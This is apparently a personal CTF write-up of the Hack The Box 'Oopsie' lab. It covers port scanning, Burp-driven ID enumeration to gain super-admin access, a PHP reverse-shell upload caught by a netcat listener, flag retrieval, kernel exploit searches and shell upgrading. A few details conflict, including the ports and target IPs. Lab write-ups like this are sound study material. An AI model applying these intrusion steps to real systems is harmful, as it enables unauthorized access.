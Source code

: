 ```yaml
---
title: "Writeup: Oopsie"
date: 2020-12-29T9:34:30-04:00
categories:
  - Blog
  - Notes
tags:
  - oopsie
  - update
  - nmap
  - pwd
  - BURP
  - dirsearch.py
---
```


Here are notes from the named target:

*Enumeration* - Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.
Linux - 10.10.10.28
```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.27 
```

Results:
```yaml
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Two Ports open SSH and Web

*Enumerate* the Web port 80 - MegaCorpAutomotive

Using a web browser connect to the IP and look around. None of the menu links work but at the bottom of the home page it speaks about login but no page for that. Use BURP proxy to take a look at web traffic.

**BURP**

Using BURP and its uilt in browser no need to configure external browser.
  open web site and in BURP click :Forward" button on the Proxy tab until the page opens up:
  Switch to the :Target" tab and you see a folder tree under the Web IP for "CDN-CGI\login" add that to url path in browser and hit enter:
  back in BURP on the Proxy Tab click Forward to get to the Login Screen:
  
From the "ARCHTYPE" box we learned that their was an Administrator/Admin account that used the Password: MEGACORP_4dm1n!!

Using that Admin user name and Password from ARCHETYPE works and we get the admin page

```yaml
http://10.10.10.28/cdn-cgi/login/admin.php
```

Look around that page:

  The uploads page says that "super admin" is needed to access but I am logged in as only Admin
  
  ```yaml
  http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
  ```
  
  Using BURP proxy again turn ON Intercept and capture the account page to get the user ID
  Send the page to intruder:
  
  Clear all the automatic set variables with the Cler button and highlight the id=1 then click add to gt this
  
  ```yaml
  GET /cdn-cgi/login/admin.php?content=accounts&id=§1§ HTTP/1.1

Host: 10.10.10.28

Upgrade-Insecure-Requests: 1
```

Click the Payloads tab and we want to try id=1-100 so we got to list 1-100 numbers in the shell with

```yaml
for i in {1..100}
do
 # your-unix-command-here
 echo $i
done
```

Highlight the numbers 1-100 in the shell - Copy and then in BURP click Paste to add them to the Payloads section:

Click Options and scroll to bottom to the Redections section:
1. click always radio
2. check Process cookies in redirections
  
Click Target Tab and click Start Attack Button: the length field shows that responce text is different than others so taking a look at the ones with different length shows number 30 is "super admin" by choosing it with Response Tb anf RAW selected:

```yaml
<br /><br /><center><h1>Repair Management System</h1><br /><br />
<table><tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>86575</td><td>super admin</td><td>superadmin@megacorp.com</td></tr></table<script src='/js/jquery.min.js'></script>
<script src='/js/bootstrap.min.js'></script>
</body>
```
  
Use the ID 86575 as the ID value in an uploads page and get access to upload a file.
that gets access to the uploads page

```yaml
http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
```

Now I wanty to try and upload a PHP reverse shell

**Reverse Shell**
Locate PHP reverse shell from http://pentestmonkey.net/tools/web-shells/php-reverse-shell

Be sure to read what it does and update the IP and port. Save the PHP reverse shell (phpshell.php) and then upload it to the web page:

Now that it is uploaded you have to find out where it was uploaded to so you can browse to it and cause it to fire off:

Use *dirsearch.py*

```yaml
┌──(kali㉿kali)-[~/dirsearch]
└─$ python3 dirsearch.py -e php -u http://10.10.10.28 --exclude-status 403,401                                                                   2 ⨯

  _|. _ _  _  _  _ _|_    v0.4.1                                                                                                                     
 (_||| _) (/_(_|| (_| )                                                                                                                              
                                                                                                                                                     
Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 8853

Error Log: /home/kali/dirsearch/logs/errors-20-12-31_12-22-28.log

Target: http://10.10.10.28/                                                                                                                          
                                                                                                                                                     
Output File: /home/kali/dirsearch/reports/10.10.10.28/_20-12-31_12-22-28.txt

[12:22:28] Starting: 
[12:22:40] 301 -  308B  - /css  ->  http://10.10.10.28/css/                                                                             
[12:22:42] 301 -  310B  - /fonts  ->  http://10.10.10.28/fonts/                                       
[12:22:42] 301 -  311B  - /images  ->  http://10.10.10.28/images/  
[12:22:43] 200 -   11KB - /index.php                                                                           
[12:22:43] 200 -   11KB - /index.php/login/
[12:22:43] 301 -  307B  - /js  ->  http://10.10.10.28/js/                                               
[12:22:48] 301 -  311B  - /themes  ->  http://10.10.10.28/themes/                                                 
[12:22:48] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/                       
                                                                                                
Task Completed                                   
```
Before we can fire the reverse shell we have to open a listener and have it wait for the connection from the web server reverse shell:

```yaml
nc -nlvp 4321
```
Now we try to browse to the "/uploads/phpshell.php" - you will aslso ne to use the ID of the Super Admin in the BURP Proxy then click "Forward"

**Got SHELL**

```yaml
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4321             
listening on [any] 4321 ...
connect to [10.10.14.87] from (UNKNOWN) [10.10.10.28] 51198
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:38:42 up 11:52,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
```
Grab local info
```yaml
$ cd home
$ ls
robert
$ cd robert
$ ls
user.txt
$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
$ whoami
www-data
```

kernal version - Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux:

Check exploit DB - searchsploit
```yaml
┌──(kali㉿kali)-[~]
└─$ searchsploit Linux Kernel 4.15.0
------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                     |  Path
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                                          | solaris/local/15962.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privi | linux/local/9479.c
Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Privilege Escalation                                    | linux/local/47163.c
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (cron Method)                | linux/local/47164.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (dbus Method)                | linux/local/47165.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (ldpreload Method)           | linux/local/47166.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (polkit Method)              | linux/local/47167.sh
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                                         | linux/local/41886.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak                                                           | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption                                               | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                                                                     | linux/dos/44579.c
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Check open ports that may not be visable from outside"

netstat -antup - showm myswl port 3306 listening

**UPGRADE SHELL**

If you pop a shell from a web server you are most likely in as "www-data" and the shell is not good to use as a full featured one:

Upgrafe shell with running these commands all at once:

```yaml
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```

You may have to answer a question for termanal type so enter "xterm" and/or hit return several times 

